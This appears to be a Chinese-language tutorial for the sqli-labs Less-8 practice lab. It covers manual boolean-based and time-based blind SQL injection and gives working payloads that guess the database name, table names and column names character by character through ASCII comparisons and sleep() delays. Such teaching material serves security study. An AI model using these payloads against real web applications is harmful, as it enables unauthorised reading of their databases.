





> Environment: PHP 7.3.4 + MySQL 5.7.26

> Lab: sqli-labs Less-8

---

## 1.0 布尔盲注&延时盲注函数

**在布尔注入及延时注入中, 常用函数如下:**

| 序号 | 函数                     | 注释                                         |
| ---- | ------------------------ | -------------------------------------------- |
| 1    | if(条件,返回值1,返回值2) | 判断条件, 若为真返回(返回值1), 否则为返回值2 |
| 2    | substr(str,1,2)          | 从第1位开始截取'str'的长度为2 (st)           |
| 3    | length(database())=8     | 判断数据库名称长度是否为8                    |
| 4    | ascii(s)=115             | 判断字母's'编码是否为115                     |
| 5    | sleep(n)                 | 延时输出结果,n为秒数                         |

---

**手工注入流程(布尔盲注):**

**01 判断数据库字符长度**

```mysql
?id=1' and length(database())=8 --+
```



> 当前数据库名长度=8

**02 猜解数据库名,(采用ascii编码)**

```mysql
?id=1' and ascii(substr(database(), 1,1))=115 --+
```



> 猜测正确,第一位确实为 '115', 小写字母 's', 继续猜剩余7位即可

**03 猜解表名长度**

```mysql
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+
```



> 当前数据库第一个表, 表名长度=6

**04 猜解数据表名**

```mysql
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1,1))=114 --+
```



> 当前库第一个表,第一个字母并非 '114' , 'r'

**05 猜解列名**

```mysql
?id=1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1), 1,1))=114 --+
```


> users 表中第一个字段首字母并非 '114','r'

...

盲注每一步都需要猜解大量字符, 以上是标准Payload, 实际过程中使用二分法思路结合ASCII编码进行.

**延时盲注:**

延时盲注即在布尔盲注的语句中添加条件判断if (IF(条件, sleep(秒数), 0)) , 标准格式如下:

```mysql
?id=1' and if(length(database())=8,sleep(3),0)--+
```



以上语句为真, 执行sleep(3) , 如上图, 浏览器会有加载标识